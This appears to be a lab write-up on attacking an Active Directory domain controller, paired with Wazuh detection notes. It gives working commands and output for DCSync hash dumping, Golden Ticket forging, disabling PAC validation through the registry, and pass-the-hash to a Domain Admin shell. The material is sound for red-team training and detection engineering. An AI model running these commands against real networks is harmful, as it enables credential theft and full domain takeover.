

# Phase 6: Domain Domination

MITRE ATT&CK: T1003.006 T1558.001

## Flow



## 6.1 DCSync

```bash
impacket-secretsdump \
  -hashes 'aad3b435b51404eeaad3b435b51404ee:bf27edd1…[REDACTED-NTLM]' \
  'lab.local/administrator@192.168.90.121' \
  -just-dc-ntlm
```

```
Dumping Domain Credentials using DRSUAPI method to get NTDS.DIT secrets

Administrator:500:aad3b435b51404eeaad3b435b51404ee:bf27edd1…[REDACTED-NTLM]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:434b1005…[REDACTED-KRBTGT-NTLM]:::
lab.local\john.doe:1105:aad3b435b51404eeaad3b435b51404ee:7209d1e2…[REDACTED-HASH]:::
svc-backup:1106:aad3b435b51404eeaad3b435b51404ee:a9fdfa03…[REDACTED-HASH]:::
svc-legacy:1107:aad3b435b51404eeaad3b435b51404ee:a9fdfa03…[REDACTED-HASH]:::
WINDOWS-AD-DC$:1000:aad3b435b51404eeaad3b435b51404ee:b4edda5d…[REDACTED-HASH]:::
WIN-AGENT-01$:1103:aad3b435b51404eeaad3b435b51404ee:2fa011e5…[REDACTED-HASH]:::
WIN-AGENT-02$:1104:aad3b435b51404eeaad3b435b51404ee:5628c6ac…[REDACTED-HASH]:::
```

All 9 account hashes from the domain. DCSync via DRSUAPI worked cleanly on the first attempt.

## 6.2 Golden Ticket: Multiple Attempts, All Failed

### Getting the krbtgt AES256 Key

```bash
impacket-secretsdump \
  -hashes 'aad3b435b51404eeaad3b435b51404ee:bf27edd1…[REDACTED-NTLM]' \
  'lab.local/administrator@192.168.90.121' \
  -just-dc-user krbtgt -just-dc
```

```
krbtgt:aes256-cts-hmac-sha1-96:8b2a169c…[REDACTED-KRBTGT-AES256]
krbtgt:aes128-cts-hmac-sha1-96:f67fe143…[REDACTED-KRBTGT-AES128]
krbtgt:des-cbc-md5:b068c7231f4f3480
```

### Getting Domain SID

```bash
impacket-lookupsid 'lab.local/administrator@192.168.90.121' \
  -hashes 'aad3b435b51404eeaad3b435b51404ee:bf27edd1…[REDACTED-NTLM]' \
  | grep "Domain SID"
```

```
Domain SID is: S-1-5-21-2386780907-4010950167-3005633723
```

### First Forge Attempt: NTLM Hash Only

```bash
impacket-ticketer \
  -nthash 434b1005…[REDACTED-KRBTGT-NTLM] \
  -domain-sid S-1-5-21-2386780907-4010950167-3005633723 \
  -domain lab.local \
  hacker
```

```
Saving ticket in hacker.ccache
```

```bash
export KRB5CCNAME=hacker.ccache
impacket-psexec -k -no-pass lab.local/hacker@windows-ad-dc.lab.local
```

```
Kerberos SessionError: KDC_ERR_TGT_REVOKED(TGT has been revoked)
```

### Second Forge Attempt: AES256 Key with Extra SID

After the first failure, the ticket was reforged using the AES256 key and the Domain Admins extra SID to match what a legitimate DA ticket would look like:

```bash
impacket-ticketer \
  -aesKey 8b2a169c…[REDACTED-KRBTGT-AES256] \
  -domain-sid S-1-5-21-2386780907-4010950167-3005633723 \
  -domain lab.local \
  -extra-sid S-1-5-21-2386780907-4010950167-3005633723-512 \
  -groups 512,513,518,519,520 \
  hacker
```

Ticket properties confirmed:

```
User Name:   hacker
End Time:    16/06/2036 (10 year validity)
Encryption:  aes256_cts_hmac_sha1_96 etype 18
```

```bash
impacket-psexec -k -no-pass lab.local/hacker@windows-ad-dc.lab.local
```

```
Kerberos SessionError: KDC_ERR_TGT_REVOKED(TGT has been revoked)
```

```bash
impacket-wmiexec -k -no-pass lab.local/hacker@windows-ad-dc.lab.local
```

```
Kerberos SessionError: KDC_ERR_TGT_REVOKED(TGT has been revoked)
```

### Third Attempt: Disable PAC Validation on DC

The error persisted despite using AES256. A registry change was applied on the DC to disable PAC signature validation:

```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters" /v ValidateKdcPacSignature /t REG_DWORD /d 0 /f
Restart-Service kdc -Force

reg query "HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters" /v ValidateKdcPacSignature
```

```
ValidateKdcPacSignature    REG_DWORD    0x0
```

```bash
impacket-psexec -k -no-pass lab.local/hacker@windows-ad-dc.lab.local
```

```
Kerberos SessionError: KDC_ERR_TGT_REVOKED(TGT has been revoked)
```

Still failing. Windows Server 2022 enforces PAC validation through multiple additional mechanisms beyond the ValidateKdcPacSignature registry key, including FAST and Compound Identity. File-based ccache tickets from Impacket are rejected regardless. The Golden Ticket technique using offline-forged tickets requires Mimikatz executing in memory on a domain-joined machine to inject the ticket directly into LSASS, bypassing the file-based ccache path entirely.

Golden Ticket was not achieved in this session.

## 6.3 Domain Admin Shell via Pass the Hash

After three failed Golden Ticket attempts, the session pivoted to simply using the Administrator NTLM hash directly:

```bash
evil-winrm -i 192.168.90.121 \
  -u administrator \
  -H bf27edd1…[REDACTED-NTLM]
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
lab\administrator

*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
windows-ad-dc

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /groups
```

```
LAB\Domain Admins       S-1-5-21-2386780907-4010950167-3005633723-512
LAB\Enterprise Admins   S-1-5-21-2386780907-4010950167-3005633723-519
LAB\Schema Admins       S-1-5-21-2386780907-4010950167-3005633723-518
BUILTIN\Administrators  S-1-5-32-544
Mandatory Label\High Mandatory Level
```

Domain Administrator shell on the DC confirmed.

## Wazuh Detection

### DCSync Confirmed

```
Rule:        110001
Level:       12 (mail: true)
Event:       4662
Subject:     Administrator
Properties:  {1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}
Count:       20 events
```

The detection fires because the DRSUAPI replication GUID appears in the event properties and the subject account does not end with a dollar sign. Machine accounts performing routine replication are excluded. A human account doing the same is DCSync.

### Golden Ticket Not Detected

The three failed Golden Ticket attempts did not generate any meaningful events. The ticket was rejected at the PAC validation layer before authentication completed, so there were no 4769 events for the forged user. Had the ticket succeeded, a 4769 for username hacker (which does not exist in the directory) would have been a strong indicator.

### Pass the Hash

The final evil-winrm connection using the Administrator hash generated event 4624 Type 3 with NTLM authentication and zero key length. This matches the Pass the Hash pattern in custom rule 92758, but that rule was not yet deployed in the production rule set.
